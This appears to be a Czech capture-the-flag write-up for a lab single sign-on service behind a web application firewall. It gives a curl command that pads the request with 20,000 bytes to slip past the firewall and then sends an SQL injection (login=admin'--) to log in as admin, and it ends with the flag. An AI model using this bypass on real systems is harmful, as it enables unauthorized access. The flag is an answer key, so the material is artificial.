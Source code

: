 # Single Sign-on (3)

## Zadání

Hi, emergency troubleshooter,

we are preparing a new interface for the single sign-on system, which, on the recommendation of external pentesters, is now also protected by a WAF. Test the system to ensure it is secure.

Stay grounded!

* <http://login.powergrid.tcc:8080>

## Nápovědy (Hints)

1. A WAF was probably just added in front of the old system.

## Řešení

Odkaz ze zadání <http://login.powergrid.tcc:8080> je ihned přesměrován na <http://intranet.powergrid.tcc:8080>.
Adresa `intranet.powergrid.tcc` ale není v DNS, takže se stránka nenačte. Vyřeší to nastavení proxy serveru na `login.powergrid.tcc` a port 8080.

WEB server podle nápovědy obsahuje WAF (Web application firewall), takže při pokusu o SQL injection `' OR '1'='1` skončí hláškou

```text
Forbidden
You don't have permission to access this resource.
```

Přihlašovací dialog obsahuje skrytou položku `padding`, která naznačuje, že je potřeba k datům něco přidat, aby fungovalo SQL injection. Některé WAF přestávají filtrovat, pokud jsou data větší než nějaká nastavená mez.

`curl -v "http://intranet.powergrid.tcc:8080/index.php" -x "http://login.powergrid.tcc:8080" --data-raw "login=admin'--&password=&padding=$(python -c 'print("A"*20000)')" | grep FLAG`
`

## Flag

`FLAG{rxRk-Dj3A-bGc0-cyHc}`
